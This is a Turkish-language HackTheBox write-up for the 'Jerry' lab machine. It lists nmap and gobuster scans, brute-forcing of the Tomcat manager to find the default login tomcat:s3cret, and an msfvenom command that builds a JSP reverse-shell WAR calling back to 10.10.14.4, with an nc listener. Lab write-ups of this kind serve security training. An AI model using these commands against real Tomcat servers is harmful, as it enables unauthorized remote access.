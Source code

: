 ```yaml
---
title: Jerry
date: 2024-03-27 12:03:12 
categories: [HackTheBox]
tags: [Windows]  
image: /images/jerry.webp
---
```


Jerry, Apache Tomcat'in sıklıkla zayıf kimlik bilgileriyle yapılandırılması nedeniyle gerçekçidir.

<a href="https://app.hackthebox.com/machines/Jerry">Jerry</a>

## User Flag

nmap çalıştıralım.

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-29 06:58 EDT
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.074s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.20 seconds
````

8080 portu açık ve apache tomcat çalışıyor.

Gobuster toolu ile dizin arıyorum.

````bash
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/common.txt --url http://10.10.10.95:8080  -t40 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/backup               (Status: 302) [Size: 0] [--> /backup/]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/shell                (Status: 302) [Size: 0] [--> /shell/]
/test                 (Status: 302) [Size: 0] [--> /test/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
````

/manager dizinine gittiğimizde username ve password soruyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Jerry/images/1.png?raw=true)

Hydra ile brute force deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Jerry/images/2.png?raw=true)

- tomcat:s3cret


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Jerry/images/3.png?raw=true)


/manager/html dizinine .war dosyası yükleyerek reverse shell alabiliriz.


`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f war > shell.war`

`nc -nvlp 1234`


Makineye girmeyi başardık.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Jerry/images/4.png?raw=true)



Bu sefer User ve Root flagı aynı dosya içerisinde.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/HackTheBox/Jerry/images/5.png?raw=true)

![fsoc](/images/fsoc.gif)
